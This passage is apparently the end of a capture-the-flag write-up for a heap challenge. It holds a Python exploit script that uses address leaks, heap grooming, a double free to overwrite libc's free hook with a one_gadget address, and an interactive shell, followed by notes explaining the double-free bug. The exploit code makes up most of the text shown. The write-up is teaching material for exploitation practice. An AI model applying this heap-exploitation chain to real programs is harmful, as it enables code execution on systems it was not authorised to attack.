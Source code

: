```python
print hex(binary_leak)
print hex(heap_leak)
print hex(libc_leak)

# get arbitrary write
for i in range(128):
  for j in range(16):
    kill(i, j)
next()

spawn(0, 0, 'd', 0, 0, 0x30-0xb-8, 'b')
spawn(1, 0, 'd', 0, 0, 0x30-0xb-8, 'b')
spawn(2, 0, 'd', 0, 0, 0x30-0xb-8, 'b')
spawn(3, 0, 'd', 0, 0, 0x30-0xb-8, 'b')
spawn(4, 0, 'd', 0, 0, 0x30-0xb-8, 'b')
kill(1, 0)
spawn(5, 0, 'd', 0, 0, 0x30-0xb-8, 'b'*(0x30-0xb-8-1) + '\x61')
kill(2, 0)
kill(3, 0)

# win
one_gadgets = [0x50186, 0x501e3, 0x103f50]
one_gadget = libc_leak + one_gadgets[2]
free_hook = libc_leak + 0x1e68e8

spawn(6, 0, 'd', 0, 0, 0x60-0xb-8, 'b'*(0x30-0xb-8-1) + p64(0x31) + p64(free_hook-0x10))
spawn(7, 0, 'd', 0, 0, 0x30-0xb-8, 'b')
spawn(8, 0, 'd', 0, 0, 0x30-0xb-8, 'a'*4 + p64(one_gadget)*2)
kill(0, 0)


p.interactive()
p.close()
```

![Error](/assets/images/CJFinal-11.png)

:D

### Extra notes
There is a double free bug that we can abuse in the <span style="color:#00ff00">next</span> function. Basically, if two lifeforms "crash", they will both be freed. There is no check if the lifeform is "dead", so by killing the lifeform first and then having another lifeform crash it, it will be double freed.
